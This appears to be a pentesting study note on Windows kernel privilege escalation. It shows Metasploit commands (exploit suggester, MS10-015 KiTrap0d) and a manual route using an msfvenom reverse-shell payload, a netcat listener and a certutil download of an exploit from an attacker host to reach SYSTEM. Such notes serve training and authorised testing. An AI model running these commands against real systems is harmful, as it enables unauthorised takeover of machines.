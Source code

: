 # Kernel Exploits

The Kernel is a computer program that controls everything in the system. Facilitates interactions between hardware and software components (a translator)

```
                     [Application]
                           |
                           V 
                        [Kernel]
                           |
            -------------------------------
            |              |              |
            V              V              V 
          [CPU]        [Memory]      [Devices]
```

![images](images/kernel.png)

There could be outdated software and these outdated software contains vulnerability so we want to check the kernel version in the target machines and make use of it to the exploitations

## Kernel Exploits using Metasploit

```
// start the metasploit 
msfconsole 

// after the initial low privilege access get the shell and run the windows-exploit-suggester in the metasploit 
run post/multi/recon/local_exploit_suggester 

// after getting few kernel exploit (example kitrap0d)
background
use exploit/windows/local/ms10_015_kitrap0d

// set the options like set the session to before session , set lhost to 5555 and lport to other port, not the port used before in initial access 
run 

// now we have high privilege
getuid
output - Server username: NT AUTHORITY\SYSTEM 
```

## Kernel Exploits by Manually

We are now going to manually exploit this using netcat 

```
// creating payload for reverse shell 
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f aspx > manual.aspx 

// Using the anonymous login in ftp in the first stage gain the reverse shell using netcat 
nc -nvlp 4444 

// using windows-exploit-suggester.py find a valid kernel expoit (example here MS11-059)
found a kernel exploit MS11-059 and searching in google to find a manual code to exploit this vulnerability

// host a python webserver to send the payload to the target machines and download using 
certutil -urlcache -f https://attacker_ip/MS11-059.exe ms.exe 

// we found code in github or other websites to exploit it and we gain high privilege
getuid 
output - NT AUTHORITY\SYSTEM
```

## Resource 

- [windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

> [!NOTE]
> Here there could be outdated resources so make the resources according to the new vulnerability and target machines versions 
